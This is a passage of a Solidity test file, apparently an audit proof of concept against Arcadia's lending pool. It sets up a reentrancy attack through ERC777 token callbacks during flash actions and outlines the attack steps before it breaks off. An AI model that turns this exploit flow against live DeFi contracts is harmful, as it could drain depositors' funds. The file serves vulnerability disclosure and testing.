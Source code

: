     ```solidity
    
    /**
     * Created by Pragma Labs
     * SPDX-License-Identifier: BUSL-1.1
     */
    pragma solidity 0.8.22;
    
    import { LendingPool_Fuzz_Test } from "./_LendingPool.fuzz.t.sol";
    
    import { ActionData, IActionBase } from "../../../lib/accounts-v2/src/interfaces/IActionBase.sol";
    import { IPermit2 } from "../../../lib/accounts-v2/src/interfaces/IPermit2.sol";
    
    /// @notice Proof of Concept - Arcadia
    contract Poc is LendingPool_Fuzz_Test {
    
        /////////////////////////////////////////////////////////////////
        //                        TEST CONTRACTS                       //
        /////////////////////////////////////////////////////////////////
    
        ActionHandler internal actionHandler;
        bytes internal callData;
    
        /////////////////////////////////////////////////////////////////
        //                          SETUP                              //
        /////////////////////////////////////////////////////////////////
    
        function setUp() public override {
            // Setup pool test
            LendingPool_Fuzz_Test.setUp();
    
            // Deploy action handler
            vm.prank(users.creatorAddress);
            actionHandler = new ActionHandler(address(liquidator), address(proxyAccount));
    
            // Set origination fee
            vm.prank(users.creatorAddress);
            pool.setOriginationFee(100); // 1%
    
            // Transfer some tokens to actiontarget to perform liquidation repayment and approve tokens to be transferred to pool 
            vm.startPrank(users.liquidityProvider);
            mockERC20.token777.transfer(address(actionHandler), 1 ether);
            mockERC20.token777.approve(address(pool), type(uint256).max);
    
            // Deposit 100 erc777 tokens into pool
            vm.startPrank(address(srTranche));
            pool.depositInLendingPool(100 ether, users.liquidityProvider);
            assertEq(mockERC20.token777.balanceOf(address(pool)), 100 ether);
    
            // Approve creditor from actiontarget for bid payment
            vm.startPrank(address(actionHandler));
            mockERC20.token777.approve(address(pool), type(uint256).max);
    
        }
    
        /////////////////////////////////////////////////////////////////
        //                           POC                               //
        /////////////////////////////////////////////////////////////////
        /// @notice Test exploiting the reentrancy vulnerability. 
        /// Prerequisites:
        /// - Create an actionTarget contract that will trigger the attack flow using the ERC777 callback when receiving the 
        ///   borrowed funds in the flash action.
        /// - Have some liquidity deposited in the pool in order to be able to borrow it
        /// Attack:
        /// 1. Open a margin account in the creditor to be exploited.
        /// 2. Deposit a small amount of collateral. This amount needs to be big enough to cover the `minUsdValue` configured
        /// in the registry for the given creditor.